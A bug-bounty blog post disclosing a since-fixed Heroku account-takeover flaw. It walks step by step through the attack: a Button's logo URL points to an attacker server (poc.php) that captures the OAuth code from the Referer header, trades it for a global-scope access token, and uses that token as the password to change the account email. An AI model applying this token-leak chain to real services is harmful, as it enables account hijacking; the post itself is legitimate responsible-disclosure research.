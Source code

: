 ```yaml
---
layout: post
title: "Taking over Heroku accounts"
---
```


_This is the first time I'm proud of a vulnerability I find._

> Prior to publishing this blog post, the team at Heroku fixed the vulnerability on 5/26, and it is no longer exploitable.

Context
======
<a href="https://www.heroku.com/" target="_blank">Heroku</a> has a feature called <a href="https://elements.heroku.com/buttons" target="_blank">Buttons</a>, which "let you one-click provision, configure and deploy third party components, libraries and pattern apps".
You can notice the button on Github like here: <a href="https://github.com/ParsePlatform/parse-server-example" target="_blank">https://github.com/ParsePlatform/parse-server-example</a>. In this case, when you click on <img src="https://www.herokucdn.com/deploy/button.svg" height="20">, you are redirected to <a href="https://dashboard.heroku.com/new?button-url=https%3A%2F%2Fgithub.com%2FParsePlatform%2Fparse-server-example&template=https%3A%2F%2Fgithub.com%2FParsePlatform%2Fparse-server-example" target="_blank">https://dashboard.heroku.com/new?button-url=https%3A%2F%2Fgithub.com%2FParsePlatform%2Fparse-server-example&template=https%3A%2F%2Fgithub.com%2FParsePlatform%2Fparse-server-example</a>.

Anyone can create a Button: <a href="https://devcenter.heroku.com/articles/heroku-button" target="_blank">https://devcenter.heroku.com/articles/heroku-button</a>. 

I created a Button <a href="https://github.com/stefanocoding/heroku_test" target="_blank">https://github.com/stefanocoding/heroku_test</a> that only includes the required file `app.json`. Because `app.json` is the file from where Heroku gets the information about the Button.

I tried injecting HTML attributes and tags in `app.json` to achieve XSS, but the special characters are being escaped in the client side (if you can do it, <a href="https://bugcrowd.com/heroku" target="_blank">report it!</a>). However, I noticed that I can set the URL of the `"logo"` to any value. This URL is used as the `src` of an `<img>` created when _https://dashboard.heroku.com/new_ is loaded.

When using `<img>`s the `Referer` header is sent with the URL that requested the image as the value, which allows the "image" to capture this URL in the server-side. I was only able to capture the `Referer` from a different domain using Firefox, Safari, Internet Explorer and Edge, but not using Chrome.

_More ways to leak HTTP requests: <a href="https://github.com/cure53/HTTPLeaks" target="_blank">https://github.com/cure53/HTTPLeaks</a>._

Vulnerability
======
What I had until now was that when I load <a href="https://dashboard.heroku.com/new?template=https%3A%2F%2Fgithub.com%2FParsePlatform%2Fparse-server-example&other_parameter=with_value" target="_blank">https://dashboard.heroku.com/new?template=https%3A%2F%2Fgithub.com%2FParsePlatform%2Fparse-server-example&other_parameter=with_value</a>, `<img src="https://avatars0.githubusercontent.com/u/1294580?v=3&amp;s=200" class="">` is created and the browser makes a request to <a href="https://avatars0.githubusercontent.com/u/1294580?v=3&amp;s=200" target="_blank">https://avatars0.githubusercontent.com/u/1294580?v=3&s=200</a> with the header `Referer: https://dashboard.heroku.com/new?template=https%3A%2F%2Fgithub.com%2FParsePlatform%2Fparse-server-example&other_parameter=with_value`. But I didn't have any critical parameter+value in the URL. 

I played with <a href="https://devcenter.heroku.com/articles/oauth" target="_blank">OAuth</a> and the applications owned by Heroku, with the intention to point the __redirect_uri__ to _https://dashboard.heroku.com/new?template=..._ -- where I could leak the `Referer` -- without success.

I don't remember when, but I noticed that a parameter __code__ is added to _https://dashboard.heroku.com/[path_requested]_ after authentication. The value of this parameter is sent to an endpoint which doesn't have <a href="https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)" target="_blank">CSRF</a> protection and returns a JSON response including an `"access_token"` with "global" scope. This "global" scope allows you to do anything with the account using the <a href="https://api.heroku.com" target="_blank">API</a>! However I couldn't change the password or the email of the account, until... [to be continued :smile:]

Attack
======
Only worked if the user was already authenticated.

1. Send user to

        https://longboard.heroku.com/login?state=https%3A%2F%2Fdashboard.heroku.com%2Fnew%3Ftemplate%3Dhttps%253A%252F%252Fgithub.com%252Fstefanocoding%252Fheroku_test

    ![1]({{ "/screenshots/2016-06-01-1.png" | prepend: site.baseurl | prepend: site.url }})

2. User is redirected to 

        https://id.heroku.com/oauth/autorize?client_id=....
    
    ![2]({{ "/screenshots/2016-06-01-2.png" | prepend: site.baseurl | prepend: site.url }})
    ![3]({{ "/screenshots/2016-06-01-3.png" | prepend: site.baseurl | prepend: site.url }})

3. User is redirected to

        https://longboard.heroku.com/auth/heroku/callback?code=....

    ![4]({{ "/screenshots/2016-06-01-4.png" | prepend: site.baseurl | prepend: site.url }})
    ![5]({{ "/screenshots/2016-06-01-5.png" | prepend: site.baseurl | prepend: site.url }})

4. And finally, the user is redirected to

        https://dashboard.heroku.com/new?template=https%3A%2F%2Fgithub.com%2Fstefanocoding%2Fheroku_test&code=...

    ![6]({{ "/screenshots/2016-06-01-6.png" | prepend: site.baseurl | prepend: site.url }})
    ![7]({{ "/screenshots/2016-06-01-7.png" | prepend: site.baseurl | prepend: site.url }})

5. Once the page loads, a request is made to the Github API to get the file __app.json__

        https://api.github.com/repos/stefanocoding/heroku_test/contents/app.json?ref=master

    ![8]({{ "/screenshots/2016-06-01-8.png" | prepend: site.baseurl | prepend: site.url }})
    ![9]({{ "/screenshots/2016-06-01-9.png" | prepend: site.baseurl | prepend: site.url }})

6. The `<img src="https://u00f1.xyz/heroku/poc.php">` is created and the "image" is loaded, sending the __code__ in the `Referer`
    ![10]({{ "/screenshots/2016-06-01-10.png" | prepend: site.baseurl | prepend: site.url }})

7. My file <a href="https://github.com/stefanocoding/stefanocoding.github.io/blob/master/code/2016-06-01-poc.php" target="_blank">poc.php</a> captures the `Referer`, extracts the __code__ and makes a POST request to 

        https://longboard.heroku.com/login/token

    with the value of the parameter __password__ set to the value of __code__
    ![11]({{ "/screenshots/2016-06-01-11.png" | prepend: site.baseurl | prepend: site.url }})

8. <a href="https://github.com/stefanocoding/stefanocoding.github.io/blob/master/code/2016-06-01-poc.php" target="_blank">poc.php</a> takes the `"access_token"` from the last response and makes a GET request to 

        https://api.heroku.com/account

    with the header `Authorization:` set to `Bearer [the_access_token]`
    ![12]({{ "/screenshots/2016-06-01-12.png" | prepend: site.baseurl | prepend: site.url }})

9. <a href="https://github.com/stefanocoding/stefanocoding.github.io/blob/master/code/2016-06-01-poc.php" target="_blank">poc.php</a> takes the `"email"` from the last response and sends an email to the address
    ![13]({{ "/screenshots/2016-06-01-13.png" | prepend: site.baseurl | prepend: site.url }})

Art Attack
======
After reporting the vulnerability to Heroku, <a href="https://twitter.com/ITSecurityguard" target="_blank">Patrik</a> from <a href="https://bugcrowd.com/" target="_blank">Bugcrowd</a> asked me to do whatever I could with his Heroku account. So, I started to look at what I could do and noticed that I couldn't change the email or password of his account. 

I kept looking for ways to really take over his account, until I decided to try to use his __access_token__ (that I had taken using the attack) as his password, and it worked! So, I changed his email.

Thanks
======
To <a href="https://www.heroku.com/" target="_blank">Heroku</a> for allow me to write about this vulnerability. 
To <a href="https://twitter.com/ITSecurityguard" target="_blank">Patrik</a> for push me to do something really bad with the bug.

_If something is not correct or well explained, let me know. Maybe is because of my ignorance, my poor English or because I missed something._
